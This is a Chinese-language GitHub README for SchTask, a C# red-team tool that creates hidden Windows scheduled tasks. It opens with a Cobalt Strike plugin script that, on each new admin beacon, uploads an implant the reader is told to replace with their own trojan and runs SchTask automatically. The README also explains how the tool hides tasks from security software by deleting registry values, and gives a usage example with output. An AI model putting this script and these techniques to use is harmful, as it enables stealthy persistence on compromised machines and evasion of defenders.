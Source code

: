# 简单加个cobalt strike插件



简单加个cobalt strike插件，上线机器自动执行SchTask，麻麻再也不用担心手速不够没法维权了。

上线机器判断是否管理员权限，然后上传目录下的logon.exe到C:\\Windows\\Temp\\，bexecute_assembly参数执行SchTask。

```
# set up the Initial check
on beacon_initial {
  if (-isadmin $1) {
    bls($1, "C:\\Windows\\Temp\\", &callback);
  }
}

sub callback {
      $flag = "logon.exe";
      if ($flag !isin $3){
        bcd($1, "C:\\Windows\\Temp\\");
        bupload($1, script_resource("logon.exe"));
        bexecute_assembly($1, script_resource("SchTask_donet_v2.exe"), "C:\\Windows\\Temp\\logon.exe 23");
        bexecute_assembly($1, script_resource("SchTask_donet_v4.exe"), "C:\\Windows\\Temp\\logon.exe 23");
      }
    }
```

**注：服务器donet版本，所以同时执行了v2和v4的SchTask，替换CS_InitSchTask目录下的logon.exe为自己的马，cobalt strike中Load InitSchTask.cna插件，或`./agscript [host] [port] [user] [password] [/path/to/script.cna]`使用。**

PS：文件需在同一个目录，例如：

![image-20211207210416939](README/image-20211207210416939.png)







========================================假装我是分割线===================================================





![logo](./imgs/logo.png)

# SchTask

| 类别 | 说明 |
| ---- | --- |
| 作者 | [AnonySec](https://github.com/An0nysec) |
| 团队 | [0x727](https://github.com/0x727) 未来一段时间将陆续开源工具 |
| 定位 | 权限维持，内存加载 |
| 语言 | C# |
| 功能 | 创建隐藏的计划任务，进行权限维持 |

## 什么是 SchTask ?

利用 Windows API，工具化创建隐藏的计划任务，同时绕过安全软件的阻断，达到持久控制。

## 实现原理 ?

### Steps

1. 选择主机随机进程名作为计划任务程序文件名
2. 将计划任务程序文件复制到 `%AppData%\Microsoft\Windows\Themes\` 中
3. 创建的计划任务名取同一随机进程名
4. 计划任务触发器以分钟为单位，无限期持续
5. 更改 Index、删除 SD 的键值，隐藏计划任务对应的 XML 文件
6. ~~删除已添加的计划任务~~

### Articles

更多技术细节，请查看  [Windows计划任务的进阶](https://payloads.cn/2021/0805/advanced-windows-scheduled-tasks.html)

## 开始体验

### Git下载安装

```bash
$ git clone https://github.com/0x727/SchTask_0x727.git
```

> 注：直接下载 [Release](https://github.com/0x727/SchTask_0x727/releases/) 版本快速使用，已经将 `Microsoft.Win32.TaskScheduler.dll` 打包到 SchTask.exe 中。

## 使用方法

### SchTask.exe   (.NET Framework 2.0)

```
C:\>SchTask.exe
  ___       _____ ____ _____
 / _ \__  _|___  |___ \___  |
| | | \ \/ /  / /  __)|  / /
| |_| |>  <  / /  / __/ / /     https://github.com/0x727
 \___//_/\_\/_/  |_____/_/      Author: AnonySec

Usage: SchTask.exe <File Path> <Minutes>
   Eg: SchTask.exe C:\Windows\System32\cmd.exe 10

C:\>SchTask.exe C:\Windows\System32\cmd.exe 1
  ___       _____ ____ _____
 / _ \__  _|___  |___ \___  |
| | | \ \/ /  / /  __)|  / /
| |_| |>  <  / /  / __/ / /     https://github.com/0x727
 \___//_/\_\/_/  |_____/_/      Author: AnonySec

[*] Copy File location:
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Themes\SearchApp.exe
[*] Hidden task xml file:
C:\Windows\System32\Tasks\Microsoft\Windows\UPnP\SearchApp
[*] RegistryKey location:
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft\Windows\UPnP\SearchApp

[+] Successfully add scheduled task !
```

### 效果图

![image-20210127170232740](./imgs/SchTask.gif)

## 为 SchTask 做贡献

SchTask 是一个免费且开源的项目，我们欢迎任何人为其开发和进步贡献力量。

- 在使用过程中出现任何问题，可以通过 issues 来反馈。
- Bug 的修复可以直接提交 Pull Request 到 dev 分支。
- 如果是增加新的功能特性，请先创建一个 issue 并做简单描述以及大致的实现方法，提议被采纳后，就可以创建一个实现新特性的 Pull Request。
- 欢迎对说明文档做出改善，帮助更多的人使用 SchTask，特别是英文文档。
- 贡献代码请提交 PR 至 dev 分支，master 分支仅用于发布稳定可用版本。
- 如果你有任何其他方面的问题或合作，欢迎发送邮件至 0x727Team@gmail.com 。

> 提醒：和项目相关的问题最好在 issues 中反馈，这样方便其他有类似问题的人可以快速查找解决方法，并且也避免了我们重复回答一些问题。
